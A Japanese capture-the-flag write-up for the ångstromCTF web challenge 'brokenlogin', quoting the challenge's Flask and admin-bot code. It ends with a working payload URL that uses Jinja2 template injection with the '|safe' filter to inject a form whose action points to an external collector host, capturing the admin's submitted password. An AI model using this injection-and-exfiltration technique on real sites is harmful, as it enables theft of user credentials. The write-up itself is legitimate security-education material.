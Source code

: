 # brokenlogin:web:110pts
Talk about a garbage website... I don't think anybody's been able to [log in](https://brokenlogin.web.actf.co/) yet! If you find something, make sure to let the [admin](https://admin-bot.actf.co/brokenlogin) know.  
[Source code](app.py)　[Admin bot code](brokenlogin.js)  

# Solution
リンクとapp.pyとAdmin Botソースが渡される。  
アクセスすると失敗回数が表示されているログインフォームのようだ。  
![site.png](site/site.png)  
ひとまずapp.pyを見ると絶対にログインできないことがわかる。  
```python
~~~
indexPage = """
<html>
    <head>
        <title>Broken Login</title>
    </head>
    <body>
        <p style="color: red; fontSize: '28px';">%s</p>
        <p>Number of failed logins: {{ fails }}</p>
        <form action="/" method="POST">
            <label for="username">Username: </label>
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
"""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)
~~~
```
ここで`message`にSSTIがあることに気づくが、25文字以下でRCEは難しそうである。  
次にAdmin Botのソースを見る。  
```js
module.exports = {
    name: "brokenlogin",
    timeout: 7000,
    async execute(browser, url) {
        if (!/^https:\/\/brokenlogin\.web\.actf\.co\/.*/.test(url)) return;
        
        const page = await browser.newPage();

        await page.goto(url);
        await page.waitForNetworkIdle({
            timeout: 5000,
        });

        await page.waitForSelector("input[name=username]");
        
        await page.$eval(
          "input[name=username]",
          (el) => (el.value = "admin")
        );

        await page.waitForSelector("input[name=password]");

        await page.$eval(
          "input[name=password]",
          (el, password) => (el.value = password),
          process.env.CHALL_BROKENLOGIN_FLAG
        );

        await page.click("input[type=submit]");

        await new Promise((r) => setTimeout(r, 1000));

        await page.close();
    },
};
```
フラグをパスワードとしてPOSTしているようだ。  
POST先を書き換えてやる必要があるとわかるのでHTMLインジェクションでformタグを壊したい。  
先ほどの`message`ではSSTIがあるものの25文字以下かつ`escape`がかかっているので有効なHTMLタグなどは挿入できないように見える。  
初めに25文字以下であるという制限の突破を考える。  
ここで`{{request.args.s}}`としてやればクエリストリングス`s`に入れた文字が出力されることを思い出す。  
これにより任意の文字数を表示することは可能となったが、テンプレートの自動サニタイズの問題が残る。  
「Jinja2 SSTI sanitize bypass」などで検索していると`{{ '<script>alert(3)</script>' | safe }}`でサニタイズが行われないと[あった](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#cross-site-scripting)。  
これを使い、SSTIを使ったHTMLインジェクションを行えばよい。  
今回はformのactionを書き換えるだけで事足りる。  
最終的に以下のURLとなった(リクエスト受信サーバにはRequestBin.comを利用)。  
```
https://brokenlogin.web.actf.co/?message={{request.args.s|safe}}&s=<form action="https://enqsru1lxbgj.x.pipedream.net/"
```
これをAdmin Botへ投げてやると以下のリクエストが届いた。  
```
GET
/?username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```
flagが得られた。  

## actf{adm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9}